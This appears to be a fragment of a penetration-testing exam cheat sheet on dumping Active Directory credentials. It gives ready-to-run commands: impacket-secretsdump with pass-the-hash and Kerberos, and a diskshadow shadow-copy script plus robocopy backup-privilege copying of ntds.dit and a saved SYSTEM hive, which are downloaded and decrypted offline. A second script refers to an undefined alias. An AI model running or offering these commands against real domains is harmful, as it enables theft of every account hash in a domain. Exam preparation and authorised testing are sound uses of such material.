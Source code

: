 ```bash
impacket-secretsdump oscp.exam/user:@target -hashes ':nthash'
```

```bash
impacket-secretsdump oscp.exam/user:@target -k -no-pass
```

## NTDS secrets


* Diskshadow and robocopy via SeBackupPrivielges

* script 1
```powershell
set verbose on  
set metadata C:\Windows\Temp\meta.cab  
set context clientaccessible  
set context persistent  
begin backup  
add volume C: alias cdrive  
create  
expose %cdrive% E:  
end backup
```

```powershell
diskshadow /s back_script.txt
```

```powershell
cd E:
```

```powershell
robocopy /b E:\Windows\ntds . ntds.dit
```

```powershell
reg save hklm\system c:\temp\system.bak
```

```powershell
download ntds.dit  
download system
```

```bash
impacket-secretsdump -ntds ntds.dit -system system
```

*  script 2
```
set context persistent nowriters
set metadata c:\exfil\metadata.cab
set verbose on
add volume c: alias trophy
create
expose %df% z:
```

